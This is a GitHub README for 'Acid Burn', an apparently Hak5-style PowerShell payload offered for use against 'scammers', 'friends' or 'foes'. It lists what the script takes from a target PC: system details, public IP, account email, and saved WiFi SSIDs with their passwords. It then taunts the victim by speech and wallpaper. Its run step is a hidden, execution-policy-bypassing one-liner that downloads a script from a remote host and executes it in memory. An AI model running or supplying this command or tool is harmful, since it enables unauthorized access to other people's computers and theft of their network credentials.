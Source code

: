 <!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Acid Burn

A script I put together to torment Call Center Scammers but can be used on your friends as well...or foes.

## Description

This program enumerates a target PC to include Operating System, RAM Capacity, Public IP, and Email associated with the Microsoft account.
The SSID and WiFi password of any current or previously connected to networks.
It determines the last day they changed their password and how many days ago.
Once the information is gathered, the script will pause until a mouse movement is detected.
Then, the script uses Sapi speak to roast their set up and lack of security.
If wifi networks and passwords are detected, the wallpaper will be changed to an image displaying that information.
The generated image will be saved to the desktop and steganography is used to put a hidden message at the bottom of the binary output of the generated image.

## Getting Started

### Dependencies

* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

```
powershell -w h -NoP -NonI -Exec Bypass irm jakoby.lol/zyg | iex
```

* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* Enumerate and get Full Name, Amount of RAM, Public IP, Wifi Password Length, Wifi Networks and Passwords, Day Password was last changed, Email
* Custom responses have been programmed to roast the target based on the information gathered during enumeration phase 
* Wifi Networks and passwords will be generated into an image that will be saved on the desktop
* Image opened in notepad will reveal a hidden message at the bottom of the binary output
* Script will freeze until a mouse movement is detected 
* Sapi Speak will be used to speak out loud the custom responses 
* Desktop wallpaper will be changed to the image of the targets Wifi Networks and Passwords
* Text file will be left on the target desktop with whatever message you choose

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors 


<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)
* [0iphor13](https://github.com/0iphor13)
* [PhilSutter](https://github.com/PhilSutter)


<p align="right">(<a href="#top">back to top</a>)</p>

